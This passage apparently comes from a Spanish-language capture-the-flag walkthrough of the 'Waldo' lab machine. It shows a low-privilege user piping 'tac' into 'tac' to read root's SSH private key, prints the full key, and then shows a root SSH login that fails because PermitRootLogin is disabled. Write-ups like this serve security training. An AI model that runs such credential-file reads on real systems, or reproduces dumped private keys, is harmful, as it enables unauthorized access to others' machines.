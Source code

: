 ```
GNU coreutils online help: <https://www.gnu.org/software/coreutils/>
Full documentation at: <https://www.gnu.org/software/coreutils/tac>
or available locally via: info '(coreutils) tac invocation'
```

Obtenemos la `id_rsa` en el orden adecuado

```
monitor@waldo:~/app-dev$ tac /root/.ssh/id_rsa | tac
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAvN1rN9lPfdclMO+ZnoA17rDK5coWWPBMfIadj/PKozv1Ol49
Hql4uEZ6XmLqaV5sfbGaYShuRDJqverunF/c6ntu7AADFozRfkmXxnjkU4P7g8nE
IvNf4ow46MvAdiK3nEBD6TJJpwBjqI/RiVb7xac9uA9XWPAZk5CKw1VDCYzhWdbW
GymtVldQkpmMgE8h1/ymWTIXeMuPp/4k/Gfa0jB0TKplZFpGHZ0mBqsEFAU55t7E
TH9Vx2Otr6alb5C5Ufr3vrmdg5wat9FJYMKnd2hz1ful9GNpOF8cWUIDZYzAHmCO
ZXGiiZmiigagRDWCiiT/Jv0l+nek8ytEvGWiIQIDAQABAoIBAFQbAoFHe/fdVImb
WbzU+a+G+YQlX5hRwq39wLL3bTkOHWHVz8AU1laxxBK+WAd+bi/3ZHl56Mjj7tcO
hR4MLrQZLcdZJgbnxO9JVJalBYEPmHUS6A5sdTnNGhbJjbbONRgXImb55wTAzqCl
EznnC430sS6DXnGT0r/9MV5VXNomJwyPBz0t8yqvS8uJkni0GZE3hGRrd5fFeEgz
fz38bJCkN1RWWVgOiKYJUCZQRJ3eNiPBRChp0+NSY3Z/E4omNc07/xpdOnUyPMSP
sdQ5XKj5AIIW2XEd+S0Ro1IebfU3S0Bl4pCRzrROxJLNQNOedOv57JoEtcVC0Ko4
DRTS2YUCgYEA8YGaIIs9L6b2JmnXe8BKBZb0O61r3EsWvkGAsyzxbIlWNSWOcdW5
eHyHW9Md2J4hDTQbrFDQ7yUDoK+j6fi6V/fndD4IE9NUc1pNhhCB1Nt9nwj28nS7
DgNeNaceHtVrn5Hc9KTUJE7HhBwSffKMM95D/7xzYYxTqM11yh7c/ncCgYEAyDMO
05yq1Q/+t2tC5y3M+DVo4/cz65dppQcOf0MIIanwV7ncgk2Wa5Mw8fdo1FtnCdlR
kDE9rs5RkhoMhWcV9R1lV1xXScHaJik0ljghKrnU3yRNPOXTcKCCnxGhXsx8GjWu
uOV/JA5w4urzbUPRNqagREzeqTZN04aM2Jz9kicCgYBZPoVQJWQU6ePoShCBAIva
CPBz5SAIpg7fe6EtlRwZ+Z5LwXckBdCl/46dliRfWf/ouyrGwI6U8N6oUH+IBIwH
2epEAHBHsz5v6hzfv9XabMm9LTjkW9KL2R7FQN5WkpNUwjgeh5KFYD9GSIFk3W6F
9Eq4hFE26P45UMOIT2Nm/QKBgQCPrWUEpblMs/AAPvCC7THfKKWghbczazUchNX4
q2jYkBe3PeJtebVsevRzkzYewYJPZTHOJCi6ncOY8SzvSK5PfctPSSwz+PXQ0V22
OY5EFZ4ajvkHrYFzoR5dfs+rM2IVhVVhyQLYI60MjcYqMrOhXzBCFFDwa9Kq7jOC
+hhZnQKBgQClMZWr2GmGv7KN/LfhOa0dil3fWtxSdHdwdLlgrKDJslcQUM03sACh
F8mp0GWsEg8kUboEKkyAffG5mcZ/xwZP0MbnmGjIg28DgcbnMsldxOJi3m3VAbC+
x8YIcMgR7/X4fGSV20lsgTVMSH9uNNXD+W3sCJ6Nk+mUBcdUoeFt+w==
-----END RSA PRIVATE KEY-----
```

`Almacenamos` la `id_rsa` y le damos el `permiso 600` con `chmod` e `intentamos conectarnos` a la máquina víctima pero `no funciona`, en este máquina solo podemos `capturar` la `flag` de `root`

```
# ssh -i id_rsa root@10.129.229.141   
root@10.129.229.141: Permission denied (publickey).
```

Esto se debe a que en los `archivos` de `configuración` de `SSH` no está permitido el `login` con el usuario `root`

```
monitor@waldo:/etc/ssh$ cat sshd_config
PermitRootLogin no
```

